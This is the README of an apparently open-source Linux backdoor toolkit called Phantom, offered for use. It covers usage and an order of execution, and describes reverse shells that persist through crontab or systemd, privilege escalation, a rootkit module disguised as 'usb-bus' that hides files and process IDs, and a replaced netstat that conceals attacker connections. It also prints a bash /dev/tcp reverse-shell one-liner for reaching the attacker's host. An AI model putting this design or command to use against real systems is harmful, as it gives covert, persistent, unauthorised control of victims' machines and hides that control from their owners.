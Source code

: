 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat.
If needed it attempts privilege escalation. It only works on Linux machines.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port (port1) and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every minute to the attacker's machine, but to a different port than the first one (port2). The reason for this is that this way you have more control of what to do with the backdoor shell, otherwise the same payload gets executed each time the target connects to your machine. It also creates a python3 server listening to a third port that is needed to transfer the files needed by the payload. Lastly, if privilege escalation is attempted, it opens another ncat process.

## Usage

```
phantom-init [ip=][port1=][port2=]
```

* ip: the attacker's ip (e.g. ip=127.0.0.1)
* port1: the port that listens for connections to deliver the payload (e.g. port1=8888)
* port2: the port that listens for the backdoor shells after delivering the payload

You have to somehow make the target connect to port1, i.e. bash -c 'bash &>/dev/tcp/ip/port1 <&1 &'
ip and port1 are the ones specified above.

## Files

* phantom-init: Creates the python3 server and an ncat listening process to a predefined ip and port and redirects input to the payload file.

* payload: This is the file that gets executed when the target connects to the listening ncat port1. It does the following:
  * If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
  backdoor shell to port2 and then attempts privilege escalation. If it succeeds it moves to the next step.
  * If the user connecting is root and systemd is used, it creates a systemd service which executes a script, continuously trying to
  create a backdoor bash shell to your machine (port2). It also creates a systemd service which executes a script,
  hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). If systemd is not used it does the
  same but with a crontab file and python shells. It then creates and inserts a rootkit module named usb-bus which hides its files, the ones of the
  scripts that the systemd services/crontab use and the systemd services/crontab themselves. It is also persistent through reboots because the script which
  hides the pids inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote connections to the specified ip and port2.

* phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system. It can also undo changes made to the nft ruleset by using the argument -r | -R .

## Order of execution

* Before delivering the payload:
  1.  Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
  1.  Execute phantom-firewall as root, so it can modify the firewall rules.
  2.  Create a ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

## Order of closing

1.  Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2.  Close the ncat listening process so all the connections get closed with it.
3.  Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
    This is needed if you want the target to be able to connect to you again, otherwise a nftables rule is gonna
    block him.

### Contact Information

Konstantinos Sarantopoulos  
konsaranto@gmail.com
